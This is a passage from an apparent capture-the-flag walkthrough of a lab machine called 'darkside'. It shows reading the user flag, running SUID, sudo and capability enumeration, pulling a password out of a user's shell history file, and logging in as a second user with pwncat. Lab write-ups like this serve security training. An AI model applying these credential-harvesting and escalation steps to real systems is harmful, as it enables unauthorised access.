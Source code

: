 ### flag - user

```bash
(remote) kevin@darkside:/home/kevin$ cat user.txt
UnbelievableHumble
```

### 提权探测

```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/umount
/usr/bin/mount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/su
/usr/bin/sudo
```

```plaintext title="sudo -l"
Sorry, user kevin may not run sudo on darkside.
```

```plaintext title="getcap -r / 2>/dev/null"
/usr/bin/ping cap_net_raw=ep
```

### 读取命令行历史

```bash title="/home/kevin/.history"
ls -al
hostname -I
echo "Congratulations on the OSCP Xerosec"
top
ps -faux
su rijaba
ILoveJabita
ls /home/rijaba
```

获得一个凭据

```plaintext
rijaba:ILoveJabita
```

## User - rijaba

```bash
┌─[randark@parrot]─[~]
└──╼ $pwncat-cs rijaba@192.168.56.107
[17:02:02] Welcome to pwncat 🐈!
Password: ***********
[17:02:05] 192.168.56.107:22: normalizing shell path
[17:02:06] 192.168.56.107:22: registered new host w/ db
(local) pwncat$ back
(remote) rijaba@darkside:/home/rijaba$ whoami
rijaba
```
